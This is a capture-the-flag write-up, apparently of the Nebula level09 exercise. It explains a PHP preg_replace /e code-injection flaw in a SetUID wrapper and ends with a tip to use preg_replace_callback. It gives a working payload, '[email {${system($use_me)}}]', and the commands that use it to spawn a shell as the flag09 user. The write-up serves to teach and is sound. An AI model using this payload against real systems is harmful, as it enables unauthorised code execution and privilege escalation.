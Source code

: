 
---
### 🧾 Challenge Description

> This level presents a **SetUID binary wrapping a vulnerable PHP script** that processes custom markup.  
> The goal is to exploit a flaw in how user input is evaluated inside a regex replacement and gain code execution as `flag09`.

**Login:** `level09 : level09`  
**Target directory:** `/home/flag09`  
**Executable:** `./flag09`

---

### 💻 Source Code Review

```php
$contents = preg_replace("/(\[email (.*)\])/e", "spam(\"\\2\")", $contents);
```

🔍 The problem lies in the use of the **`/e` modifier** in `preg_replace()`, which was deprecated in PHP 5.5 and removed in PHP 7.0.

🛑 The `/e` flag means:

> Evaluate the second argument (`spam(\"\\2\")`) as **PHP code** after replacing.

That makes this **arbitrary code execution** if user input is crafted cleverly.

---

### 🎯 Goal

Inject a payload into the input file that causes PHP code to execute as the `flag09` user when the script runs.

---

### 🧨 Exploitation Steps

#### 🪤 Step 1: Craft the payload

We can break out of the `spam()` call using `${...}` and call arbitrary PHP functions like `system()`.

💥 Payload:

```
[email {${system($use_me)}}]
```

Why it works:

- `\\2` in the regex becomes `{${system($use_me)}}`
    
- PHP ends up evaluating: `spam("{${system($use_me)}}")`
    
- Which runs: `system($use_me)`
    

---

#### 🗂️ Step 2: Prepare the test file

```bash
echo '[email {${system($use_me)}}]' > /tmp/test
```

#### 🚀 Step 3: Run the vulnerable wrapper

Pass the **file** and the **command to run** (`sh` in this case):

```bash
cd /home/flag09
./flag09 /tmp/test sh
```

You're now in a shell as `flag09`.

---

### 🏁 Step 4: Get the Flag

```bash
getflag
```

✅ Output:

```
You have successfully executed getflag on a target account
```

---

### 🔐 Takeaway

This level is a textbook example of why **evaluating code dynamically based on user input** is dangerous.

🛑 **The `/e` modifier is evil.**

🔐 **Security Tip:**

> Never use `preg_replace` with the `/e` flag. Use safer alternatives like `preg_replace_callback()` and strictly validate inputs before evaluation.

---
